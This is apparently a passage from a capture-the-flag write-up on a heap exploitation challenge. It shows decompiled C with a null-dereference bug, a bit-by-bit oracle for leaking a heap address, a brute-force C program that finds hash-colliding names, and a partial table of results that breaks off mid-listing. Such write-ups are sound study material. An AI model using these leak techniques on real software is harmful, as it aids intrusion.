 ```c
  for ( i = linked_lists[(signed int)v5]; i && strcmp((const char *)i->name, (const char *)a1); i = (ht_ent *)i->next )
    ;//if found, traverse the linked list and return the value
  return (__int64 *)i->value;
    //but if not found in hash table, this will cause null pointer access
}
```

Since we can let `bits[60:62]` equal to the heap address, we can traverse all bits, and do the bit testing. If `"No such entry!"` is shown, it is suggested that the corresponding bit is 0, otherwise it will be 1.

It will be easier to find the `name` such that `tea_hash` equal to `60` or `61`, and their other 2 hashes are same, so we can test only 1 bit at the time and do the traversing easier.

The C code to find such name:

```c
int pos[64] = {0};
int main(int argc, char const *argv[])
{
	//for (int j = 0; j < 64; ++j)
	{
		for (size_t i = 0; i < 0x100000000; ++i)
		{
			unsigned char* tmp = (unsigned char*)(&i);
			tmp[4] = 0xff;
			if (abs(tea_hash(tmp)) % 62 == 60 && xor_hash(tmp) == addbits_hash(tmp))
			{
				if (pos[xor_hash(tmp)] == 0)
					printf("%lx %u\n", i, xor_hash(tmp));
				pos[xor_hash(tmp)] = 1;
			}
			tmp[4] = 0;
		}
	}
	return 0;
}
```

`tmp[4] = 0xff;` is used to get all values ranging from 0 to 32, use this to get one part and comment this to get another part.

And the result is 

```python
xor_add_60 = {
6:0xd2c,
10:0x10ede,
11:0x1396f,
12:0x177ad,
8:0x18563,
7:0x3962,
13:0x33b7b,
14:0x3b77b,
5:0x58021,
16:0xbafef,
17:0xbffdb,
15:0xdcbef,
19:0x3d7fef,
18:0x4d77ff,
21:0xfd7fef,
20:0xff3bfd,
22:0x1f6fdff,
23:0x3fefefe,
26:0xff0105bfff,
24:0xff01071eff,
```